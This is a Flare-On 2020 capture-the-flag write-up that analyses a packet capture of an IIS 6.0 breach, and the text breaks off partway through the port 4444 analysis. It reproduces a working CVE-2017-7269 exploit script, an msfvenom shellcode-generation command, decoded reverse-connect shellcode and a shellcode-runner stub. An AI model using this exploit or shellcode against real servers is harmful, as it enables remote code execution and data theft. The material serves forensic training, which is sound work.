## Flare-On CTF 2020
# Challenge 07 : Re-Crowd

```
Hello,

Here at Reynholm Industries we pride ourselves on everything. 
It's not easy to admit, but recently one of our most valuable servers was breached. 
We don't believe in host monitoring so all we have is a network packet capture. 
We need you to investigate and determine what data was extracted from the server, if any.

Thank you
```

We are provided a PCAP network capture

Looking through the capture, there are some interesting packets here



After a HTTP PROPFIND request, some connection was opened on port 4444 and 1337  
The data transmitted over this channels looks gibberish (most likely encrypted somehow)  
This looks like some exploitation going on here

Let's look at request that triggered it



This doesn't look instantly recognizable

### The Vulnerability

I started researching on these type of requests  
I also looked at the other HTTP traffic and here is some important notes
- The server seems to be running Microsoft IIS 6.0
- There is an html file that showed a chat log of employees discussing about a "C:\\accounts.txt" file

I started to search for terms found in the request and I came across this [github page](https://github.com/edwardz246003/IIS_exploit) when searching for the term **Not \<locktoken:write1\>**

It is referring to [CVE-2017-7269](https://www.cvedetails.com/cve/CVE-2017-7269/)  
It is a stack overflow vulnerability in Microsoft IIS 6.0 that can result in remote code execution

Looking at the [sample exploit code](https://github.com/edwardz246003/IIS_exploit/blob/master/exploit.py), we can see similarities with our network traffic

```py
#------------Our payload set up a ROP chain by using the overflow 3 times. It will launch a calc.exe which shows the bug is really dangerous.
#written by Zhiniang Peng and Chen Wu. Information Security Lab & School of Computer Science & Engineering, South China University of Technology Guangzhou, China 
#-----------Email: edwardz@foxmail.com
import socket  
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
sock.connect(('127.0.0.1',80))  
pay='PROPFIND / HTTP/1.1\r\nHost: localhost\r\nContent-Length: 0\r\n'
pay+='If: <http://localhost/aaaaaaa'
pay+='\xe6\xbd\xa8\xe7\xa1\xa3\xe7\x9d\xa1\xe7\x84\xb3\xe6\xa4\xb6\xe4\x9d\xb2\xe7\xa8\xb9\xe4\xad\xb7\xe4\xbd\xb0\xe7\x95\x93\xe7\xa9\x8f\xe4\xa1\xa8\xe5\x99\xa3\xe6\xb5\x94\xe6\xa1\x85\xe3\xa5\x93\xe5\x81\xac\xe5\x95\xa7\xe6\x9d\xa3\xe3\x8d\xa4\xe4\x98\xb0\xe7\xa1\x85\xe6\xa5\x92\xe5\x90\xb1\xe4\xb1\x98\xe6\xa9\x91\xe7\x89\x81\xe4\x88\xb1\xe7\x80\xb5\xe5\xa1\x90\xe3\x99\xa4\xe6\xb1\x87\xe3\x94\xb9\xe5\x91\xaa\xe5\x80\xb4\xe5\x91\x83\xe7\x9d\x92\xe5\x81\xa1\xe3\x88\xb2\xe6\xb5\x8b\xe6\xb0\xb4\xe3\x89\x87\xe6\x89\x81\xe3\x9d\x8d\xe5\x85\xa1\xe5\xa1\xa2\xe4\x9d\xb3\xe5\x89\x90\xe3\x99\xb0\xe7\x95\x84\xe6\xa1\xaa\xe3\x8d\xb4\xe4\xb9\x8a\xe7\xa1\xab\xe4\xa5\xb6\xe4\xb9\xb3\xe4\xb1\xaa\xe5\x9d\xba\xe6\xbd\xb1\xe5\xa1\x8a\xe3\x88\xb0\xe3\x9d\xae\xe4\xad\x89\xe5\x89\x8d\xe4\xa1\xa3\xe6\xbd\x8c\xe7\x95\x96\xe7\x95\xb5\xe6\x99\xaf\xe7\x99\xa8\xe4\x91\x8d\xe5\x81\xb0\xe7\xa8\xb6\xe6\x89\x8b\xe6\x95\x97\xe7\x95\x90\xe6\xa9\xb2\xe7\xa9\xab\xe7\x9d\xa2\xe7\x99\x98\xe6\x89\x88\xe6\x94\xb1\xe3\x81\x94\xe6\xb1\xb9\xe5\x81\x8a\xe5\x91\xa2\xe5\x80\xb3\xe3\x95\xb7\xe6\xa9\xb7\xe4\x85\x84\xe3\x8c\xb4\xe6\x91\xb6\xe4\xb5\x86\xe5\x99\x94\xe4\x9d\xac\xe6\x95\x83\xe7\x98\xb2\xe7\x89\xb8\xe5\x9d\xa9\xe4\x8c\xb8\xe6\x89\xb2\xe5\xa8\xb0\xe5\xa4\xb8\xe5\x91\x88\xc8\x82\xc8\x82\xe1\x8b\x80\xe6\xa0\x83\xe6\xb1\x84\xe5\x89\x96\xe4\xac\xb7\xe6\xb1\xad\xe4\xbd\x98\xe5\xa1\x9a\xe7\xa5\x90\xe4\xa5\xaa\xe5\xa1\x8f\xe4\xa9\x92\xe4\x85\x90\xe6\x99\x8d\xe1\x8f\x80\xe6\xa0\x83\xe4\xa0\xb4\xe6\x94\xb1\xe6\xbd\x83\xe6\xb9\xa6\xe7\x91\x81\xe4\x8d\xac\xe1\x8f\x80\xe6\xa0\x83\xe5\x8d\x83\xe6\xa9\x81\xe7\x81\x92\xe3\x8c\xb0\xe5\xa1\xa6\xe4\x89\x8c\xe7\x81\x8b\xe6\x8d\x86\xe5\x85\xb3\xe7\xa5\x81\xe7\xa9\x90\xe4\xa9\xac'
pay+='>'
pay+=' (Not <locktoken:write1>) <http://localhost/bbbbbbb'
pay+='\xe7\xa5\x88\xe6\x85\xb5\xe4\xbd\x83\xe6\xbd\xa7\xe6\xad\xaf\xe4\xa1\x85\xe3\x99\x86\xe6\x9d\xb5\xe4\x90\xb3\xe3\xa1\xb1\xe5\x9d\xa5\xe5\xa9\xa2\xe5\x90\xb5\xe5\x99\xa1\xe6\xa5\x92\xe6\xa9\x93\xe5\x85\x97\xe3\xa1\x8e\xe5\xa5\x88\xe6\x8d\x95\xe4\xa5\xb1\xe4\x8d\xa4\xe6\x91\xb2\xe3\x91\xa8\xe4\x9d\x98\xe7\x85\xb9\xe3\x8d\xab\xe6\xad\x95\xe6\xb5\x88\xe5\x81\x8f\xe7\xa9\x86\xe3\x91\xb1\xe6\xbd\x94\xe7\x91\x83\xe5\xa5\x96\xe6\xbd\xaf\xe7\x8d\x81\xe3\x91\x97\xe6\x85\xa8\xe7\xa9\xb2\xe3\x9d\x85\xe4\xb5\x89\xe5\x9d\x8e\xe5\x91\x88\xe4\xb0\xb8\xe3\x99\xba\xe3\x95\xb2\xe6\x89\xa6\xe6\xb9\x83\xe4\xa1\xad\xe3\x95\x88\xe6\x85\xb7\xe4\xb5\x9a\xe6\x85\xb4\xe4\x84\xb3\xe4\x8d\xa5\xe5\x89\xb2\xe6\xb5\xa9\xe3\x99\xb1\xe4\xb9\xa4\xe6\xb8\xb9\xe6\x8d\x93\xe6\xad\xa4\xe5\x85\x86\xe4\xbc\xb0\xe7\xa1\xaf\xe7\x89\x93\xe6\x9d\x90\xe4\x95\x93\xe7\xa9\xa3\xe7\x84\xb9\xe4\xbd\x93\xe4\x91\x96\xe6\xbc\xb6\xe7\x8d\xb9\xe6\xa1\xb7\xe7\xa9\x96\xe6\x85\x8a\xe3\xa5\x85\xe3\x98\xb9\xe6\xb0\xb9\xe4\x94\xb1\xe3\x91\xb2\xe5\x8d\xa5\xe5\xa1\x8a\xe4\x91\x8e\xe7\xa9\x84\xe6\xb0\xb5\xe5\xa9\x96\xe6\x89\x81\xe6\xb9\xb2\xe6\x98\xb1\xe5\xa5\x99\xe5\x90\xb3\xe3\x85\x82\xe5\xa1\xa5\xe5\xa5\x81\xe7\x85\x90\xe3\x80\xb6\xe5\x9d\xb7\xe4\x91\x97\xe5\x8d\xa1\xe1\x8f\x80\xe6\xa0\x83\xe6\xb9\x8f\xe6\xa0\x80\xe6\xb9\x8f\xe6\xa0\x80\xe4\x89\x87\xe7\x99\xaa\xe1\x8f\x80\xe6\xa0\x83\xe4\x89\x97\xe4\xbd\xb4\xe5\xa5\x87\xe5\x88\xb4\xe4\xad\xa6\xe4\xad\x82\xe7\x91\xa4\xe7\xa1\xaf\xe6\x82\x82\xe6\xa0\x81\xe5\x84\xb5\xe7\x89\xba\xe7\x91\xba\xe4\xb5\x87\xe4\x91\x99\xe5\x9d\x97\xeb\x84\x93\xe6\xa0\x80\xe3\x85\xb6\xe6\xb9\xaf\xe2\x93\xa3\xe6\xa0\x81\xe1\x91\xa0\xe6\xa0\x83\xcc\x80\xe7\xbf\xbe\xef\xbf\xbf\xef\xbf\xbf\xe1\x8f\x80\xe6\xa0\x83\xd1\xae\xe6\xa0\x83\xe7\x85\xae\xe7\x91\xb0\xe1\x90\xb4\xe6\xa0\x83\xe2\xa7\xa7\xe6\xa0\x81\xe9\x8e\x91\xe6\xa0\x80\xe3\xa4\xb1\xe6\x99\xae\xe4\xa5\x95\xe3\x81\x92\xe5\x91\xab\xe7\x99\xab\xe7\x89\x8a\xe7\xa5\xa1\xe1\x90\x9c\xe6\xa0\x83\xe6\xb8\x85\xe6\xa0\x80\xe7\x9c\xb2\xe7\xa5\xa8\xe4\xb5\xa9\xe3\x99\xac\xe4\x91\xa8\xe4\xb5\xb0\xe8\x89\x86\xe6\xa0\x80\xe4\xa1\xb7\xe3\x89\x93\xe1\xb6\xaa\xe6\xa0\x82\xe6\xbd\xaa\xe4\x8c\xb5\xe1\x8f\xb8\xe6\xa0\x83\xe2\xa7\xa7\xe6\xa0\x81'
shellcode='VVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JB6X6WMV7O7Z8Z8Y8Y2TMTJT1M017Y6Q01010ELSKS0ELS3SJM0K7T0J061K4K6U7W5KJLOLMR5ZNL0ZMV5L5LMX1ZLP0V3L5O5SLZ5Y4PKT4P4O5O4U3YJL7NLU8PMP1QMTMK051P1Q0F6T00NZLL2K5U0O0X6P0NKS0L6P6S8S2O4Q1U1X06013W7M0B2X5O5R2O02LTLPMK7UKL1Y9T1Z7Q0FLW2RKU1P7XKQ3O4S2ULR0DJN5Q4W1O0HMQLO3T1Y9V8V0O1U0C5LKX1Y0R2QMS4U9O2T9TML5K0RMP0E3OJZ2QMSNNKS1Q4L4O5Q9YMP9K9K6SNNLZ1Y8NMLML2Q8Q002U100Z9OKR1M3Y5TJM7OLX8P3ULY7Y0Y7X4YMW5MJULY7R1MKRKQ5W0X0N3U1KLP9O1P1L3W9P5POO0F2SMXJNJMJS8KJNKPA'
pay+=shellcode
pay+='>\r\n\r\n'
print pay
sock.send(pay)  
data = sock.recv(80960)  
print data 
sock.close
```

Reading through the documentation on this vulnerability, it seems that this exploit code uses 3 "payloads"  
Let's refer to them as **payload1**, **payload2** and **shellcode**  
The documentation also says that the **shellcode** has to be alphanumeric as it is a limitation of the vulnerability

**payload1** and **payload2** sets up the stack and execution permissions to eventually run the code in **shellcode**  
Therefore, I focused only on the **shellcode** portion

### The Shellcode

This is the shellcode that we have inside our network packet

```
VVYAIAIAIAIAIAIAIAIAIAIAIAIAIAIAjXAQADAZABARALAYAIAQAIAQAIAhAAAZ1AIAIAJ11AIAIABABABQI1AIQIAIQI111AIAJQYAZBABABABABkMAGB9u4JBYlHharm0ipIpS0u9iUMaY0qTtKB0NPRkqBLLBkPRMDbksBlhlOwGMzmVNQkOTlmlQQqllBLlMPGQVoZmjaFgXbIbr2NwRk1BzpDKmzOLtKPLjqqhJCa8za8QPQtKaImPIqgctKMyZxk3MjniRkMddKM16vnQYoVLfaXOjm9quwP8Wp0ul6LCqm9hOKamNDCEGtnxBkOhMTKQVs2FtKLLPKdKNxKlYqZ3tKLDDKYqXPdIq4nDnDokqKS1pY1Jb1yoK0Oo1OQJbkZrHkrmaMbHLsLrYpkPBHRWrSlraO1DS8nlbWmVkW9oHUtxV0M1IpypKyi4Ntb0bHNIu00kypioIENpNpPP201020a0npS8xjLOGogpIoweF7PjkUS8Upw814n5PhLBipjqqLriXfqZlPr6b7ph3iteadqQKOweCUEpd4JlYopN9xbUHl0hzPWEVBR6yofu0j9pQZkTqFR7oxKRyIfhoo9oHUDKp63QZVpKqH0OnrbmlN2JmpoxM0N0ypKP0QRJipphpX6D0Sk5ioGeBmDX9pkQ9pM0r3R6pPBJKP0Vb3B738KRxYFh1OIoHU9qUsNIUv1ehnQKqIomr5Og4IYOgxLPkPM0yp0kS9RLplaUT22V2UBLD4RUqbs5LqMbOC1Np1gPdjkNUpBU9k1q8oypm19pM0NQyK9rmL9wsYersPK2LOjbklmF4JztkWDFjtmObhMDIwyn90SE7xMa7kKN7PYrmLywcZN4IwSVZtMOqxlTLGIrn4ko1zKdn7P0B5IppEmyBUjEaOUsAA
```

The most popular alphanumeric shellcode encoder is the x86/alpha_mixed encoder in Metasploit  



It uses something called the **Alpha2** encoder  
Also take note that **Alpha2** is also used for several other encoders listed here

After playing around with these encoders and reading some online guides, the best way to use them is with the BufferRegister option

The first few bytes produced by these encoders may not be 100% Alphanumeric  
This is because the shellcode has to find its current address so that the decoder stub can decode the bytes  
The instructions to find its current address will not be 100% Alphanumeric

However, if you can somehow get the address of the shellcode in one of the registers (as an artifact of exploiting the vulnerability),  
You can use the BufferRegister to tell the encoder which register contains this address  
The resulting shellcode will then be 100% Alphanumeric

Eventually, I used the x86/unicode_mixed encoder and got shellcode very similar to what we have in the network capture

```
> msfvenom -a x86 --platform windows -p windows/exec cmd=calc -e x86/unicode_mixed BufferRegister=esi

VVYAIAIAIAIAIAIAIAIAIAIAIAIAIAIAjXAQADAZABARALAYAIAQAIAQAIAhAAAZ1AIAIAJ11AIAIABABABQI1AIQIAIQI111AIAJQYAZBABABABABkMAGB9u4JBKL8h52KPm0kP1PcYheNQepS44KNp00bk22zldKNrKd4K0rLhlO87mzMVMaKODlmlQQQlYrllkp6avoLMjaVgWr8rObnwRkB2ZpdKmzMlDKPLkad8Hca8IqJ1NqBkpYO0ja6srkOYn8iSmjpIRk044KKQ6vp1kOTly1fojmkQFgMhk00uZVLCqmHxMkqmMTsExd1HTKOhmTiq6sC64KLLnkBkqHmLm16sDKZdbkm1Vp3YmtldktQKqKc1QIOjoayoYPQOQOqJDKlRhkTMaM0jIq2mcUTrKPYpypr0RHLqTKRObgioxUUkjPWEW2R6phCvBuGMeMyohUoLZfqllJsP9kgpaekU5kq7zs2R0oRJM0R3ioj5C3OqplQSm0AA
```

At first, I tried to put these shellcode bytes into a shellcode testing stub and run it in a debugger  
I figured that the decoder stub would decode the bytes and then I could dump out the decoded bytes  
However, I couldn't get this approach to work  
The decoder stub seems to depends on some registers containing certain values and I'm not sure what it is

### Alpha2 Encoder

I did more digging on the Internet and found this [article](http://theloshackers.blogspot.com/2013/08/decode-shell-code-encoded-by-alpha2.html)

It mentions that a "decoder stub" is prefix-ed before the encoded shellcode  
This prefix stub is different according to the options provided to the encoder

The Alpha2 encoder is completely open-source and we can see its [source code here](https://github.com/un4ckn0wl3z/Alpha2-encoder/blob/master/alpha2.c)

I looked at the code and this jumped out at me





Comparing these decoder stubs and our shellcode, I extracted the actual encoded shellcode portion

```
Decoder Stub:
VVYAIAIAIAIAIAIAIAIAIAIAIAIAIAIAjXAQADAZABARALAYAIAQAIAQAIAhAAAZ1AIAIAJ11AIAIABABABQI1AIQIAIQI111AIAJQYAZBABABABABkMAGB9u4JB

Encoded Shellcode:
YlHharm0ipIpS0u9iUMaY0qTtKB0NPRkqBLLBkPRMDbksBlhlOwGMzmVNQkOTlmlQQqllBLlMPGQVoZmjaFgXbIbr2NwRk1BzpDKmzOLtKPLjqqhJCa8za8QPQtKaImPIqgctKMyZxk3MjniRkMddKM16vnQYoVLfaXOjm9quwP8Wp0ul6LCqm9hOKamNDCEGtnxBkOhMTKQVs2FtKLLPKdKNxKlYqZ3tKLDDKYqXPdIq4nDnDokqKS1pY1Jb1yoK0Oo1OQJbkZrHkrmaMbHLsLrYpkPBHRWrSlraO1DS8nlbWmVkW9oHUtxV0M1IpypKyi4Ntb0bHNIu00kypioIENpNpPP201020a0npS8xjLOGogpIoweF7PjkUS8Upw814n5PhLBipjqqLriXfqZlPr6b7ph3iteadqQKOweCUEpd4JlYopN9xbUHl0hzPWEVBR6yofu0j9pQZkTqFR7oxKRyIfhoo9oHUDKp63QZVpKqH0OnrbmlN2JmpoxM0N0ypKP0QRJipphpX6D0Sk5ioGeBmDX9pkQ9pM0r3R6pPBJKP0Vb3B738KRxYFh1OIoHU9qUsNIUv1ehnQKqIomr5Og4IYOgxLPkPM0yp0kS9RLplaUT22V2UBLD4RUqbs5LqMbOC1Np1gPdjkNUpBU9k1q8oypm19pM0NQyK9rmL9wsYersPK2LOjbklmF4JztkWDFjtmObhMDIwyn90SE7xMa7kKN7PYrmLywcZN4IwSVZtMOqxlTLGIrn4ko1zKdn7P0B5IppEmyBUjEaOUsAA
```

The encoding works almost the same regardless of the options used  
The article even has a short decoder code included

```c
#include <stdio.h>
#include <stdlib.h>
int main(int argc, char argv[], char envp[]) {
  int   i, ii, A, B, D, E, F;
  char c;
  while ((i = getchar()) != EOF) {
        ii = getchar();
        D = (i & 0x0f);
        E = (ii & 0xf0) >> 4;
        F = (ii & 0x0f);
        A = D^E;
        B = F;
    printf("\\x%X%X", A, B);
  }
  exit(EXIT_SUCCESS);
}
```

I built this code and ran it against our encoded shellcode but the output still did not make sense

Reading the source code again, I noticed this small comment line



The code in the article was written for the x86/alpha_mixed encoder  
Our shellcode seems to be using the x86/unicode_mixed encoder

I made a small change to the decoding code (changed the xor to an add) and it worked

```c
#include <stdio.h>
#include <stdlib.h>
int main(int argc, char argv[], char envp[]) {
	int   i, ii, A, B, D, E, F;
	char c;
	while ((i = getchar()) != EOF) {
		ii = getchar();
		D = (i & 0x0f);
		E = (ii & 0xf0) >> 4;
		F = (ii & 0x0f);
		//A = D^E; // Alpha
		A = (D+E) & 0x0f; // Unicode
		B = F;
		printf("\\x%X%X", A, B);
	}
	exit(EXIT_SUCCESS);
}
```



I dumped the decoded bytes into a [file](decoded_shellcode.bin)

### Analyzing the Shellcode

I threw this file into IDA and the disassembly now makes sense

I also wrote a shellcode testing stub so that I can run the shellcode in a debugger

```c
#include "stdafx.h"
#include <stdio.h>
#include <Windows.h>

unsigned char b[] = "\xFC\xE8\x82\x00\x00\x00\x60\x89\xE5\x31\xC0\x64\x8B\x50\x30\x8B\x52\x0C\x8B\x52\x14\x8B\x72\x28\x0F\xB7\x4A\x26\x31\xFF\xAC\x3C\x61\x7C\x02\x2C\x20\xC1\xCF\x0D\x01\xC7\xE2\xF2\x52\x57\x8B\x52\x10\x8B\x4A\x3C\x8B\x4C\x11\x78\xE3\x48\x01\xD1\x51\x8B\x59\x20\x01\xD3\x8B\x49\x18\xE3\x3A\x49\x8B\x34\x8B\x01\xD6\x31\xFF\xAC\xC1\xCF\x0D\x01\xC7\x38\xE0\x75\xF6\x03\x7D\xF8\x3B\x7D\x24\x75\xE4\x58\x8B\x58\x24\x01\xD3\x66\x8B\x0C\x4B\x8B\x58\x1C\x01\xD3\x8B\x04\x8B\x01\xD0\x89\x44\x24\x24\x5B\x5B\x61\x59\x5A\x51\xFF\xE0\x5F\x5F\x5A\x8B\x12\xEB\x8D\x5D\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5F\x54\x68\x4C\x77\x26\x07\xFF\xD5\xB8\x90\x01\x00\x00\x29\xC4\x54\x50\x68\x29\x80\x6B\x00\xFF\xD5\x50\x50\x50\x50\x40\x50\x40\x50\x68\xEA\x0F\xDF\xE0\xFF\xD5\x97\x6A\x05\x68\xC0\xA8\x44\x15\x68\x02\x00\x11\x5C\x89\xE6\x6A\x10\x56\x57\x68\x99\xA5\x74\x61\xFF\xD5\x85\xC0\x74\x0C\xFF\x4E\x08\x75\xEC\x68\xF0\xB5\xA2\x56\xFF\xD5\x6A\x00\x6A\x04\x56\x57\x68\x02\xD9\xC8\x5F\xFF\xD5\x8B\x36\x81\xF6\x4B\x58\x4F\x52\x8D\x0E\x6A\x40\x68\x00\x10\x00\x00\x51\x6A\x00\x68\x58\xA4\x53\xE5\xFF\xD5\x8D\x98\x00\x01\x00\x00\x53\x56\x50\x6A\x00\x56\x53\x57\x68\x02\xD9\xC8\x5F\xFF\xD5\x01\xC3\x29\xC6\x75\xEE\x5B\x59\x5D\x55\x57\x89\xDF\xE8\x10\x00\x00\x00\x6B\x69\x6C\x6C\x65\x72\x76\x75\x6C\x74\x75\x72\x65\x31\x32\x33\x5E\x31\xC0\xAA\xFE\xC0\x75\xFB\x81\xEF\x00\x01\x00\x00\x31\xDB\x02\x1C\x07\x89\xC2\x80\xE2\x0F\x02\x1C\x16\x8A\x14\x07\x86\x14\x1F\x88\x14\x07\xFE\xC0\x75\xE8\x31\xDB\xFE\xC0\x02\x1C\x07\x8A\x14\x07\x86\x14\x1F\x88\x14\x07\x02\x14\x1F\x8A\x14\x17\x30\x55\x00\x45\x49\x75\xE5\x5F\xC3\x51";

int main()
{
	void *exec = VirtualAlloc(0, sizeof b, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(exec, b, sizeof b);
	((void(*)())exec)();
```

Debugging it step by step, I managed to figure out the function calls in the shellcode shown below

I also fed the debugger required values to simulate the network traffic for calls that will definitely fail (E.g. the connect and recv calls)



It connects to 192.168.68.21:4444 and calls recv twice
- recv 4 bytes (Let's call this msgLen)
- Xor msgLen with 0x524F584B
- recv msgLen bytes
- calls a decryption routine

### Port 4444

Now, let's look at the bytes sent on port 4444 and partition them according to the shellcode

```
Xored MsgLen:
9c5c4f52

Encrypted Msg:
a4b1037390e4c88e97b0c95bc630dc6abdf4203886f93026afedd0881b924fe509cd5c2ef5e168f8082b48daf7599ad4bb9219ae107b6eed7b6db1854d1031d28a4e7f268b10fdf41cc17fab5a739202c0cb49d953d6df6c0381a021016e875f09fe9a699435844f01966e77eca3f3f52f6a3636ab4775b580cb47bd9f7638a54048579c36ad8e7945a320faed1f1849b88918482b5b6feef4c3d6dccc84eab10109b1314ba4055098b073ae9c14101b65bd93826c57b9757a2aeede10fb39ba96d0361fc2312cc54f33a513e1595692c51fa54e0e626edb5be87f8d01a67d012b02431f54b9bcd5ef2db3daef3dd068fedade60b117feea204a2ca1bba1b5c51292a9dbf111e38c58badc3d288666c86d0eabfa83d5246010681dc7afc7ac4513a3d972e7cc5179f567417cae7fc87e954609f6ef4b4502745210501cb76a7ceb00d759c3290237d0472e1e3af7e6ac821474eb4f6b572213f6f248d66bcbb4eda73268cbd06642d3c5f2c537df7d9f9f28c0743abeb8c0a773d0bbfa507c101edab123d6c481a5d3b62229096b21a65c38c6803dbe0823c7b11f6de6646695dc10a71342cd3bfadcda148dd05ac88135542fb5dc61d6287788c55870b52fcfea4f4d85560407f39074ce5d3c8a2b06b49fe66d79c06e3dd83e2008b7743d3699cd7f607d9cc9b3ad0c8e456dea3ddd091dda0b3a1cfccb8148ed5afacef8c623b01e2644a3d9ab0ed598b133655ded6ad3237f024ab3a2f81d7ed12f5fbe89615e2ce4b89619e549764e7ae892a370556f7d3cf9c1364469337ddf7937b8e0aae86a5dc93b180f4e283a31a87fefb819ac3663e889214d83a77e5703489be1279306e43b675fe56950003e8b01b7efa6b54b3682d4fb9fde8b27cca457ce2537445042f77ea2bf4fdf0f72d8664a3ef5c8262ac5887b97ab235b2b61d83f00370e7e14fafd7df78149c2a1851bd028bea524fd60b278274eace8793b3b7adc56d076c5010fcf43b5d45f4870bdac6576db113b5bcf9c528b001e83f1fa925b7779076ae0d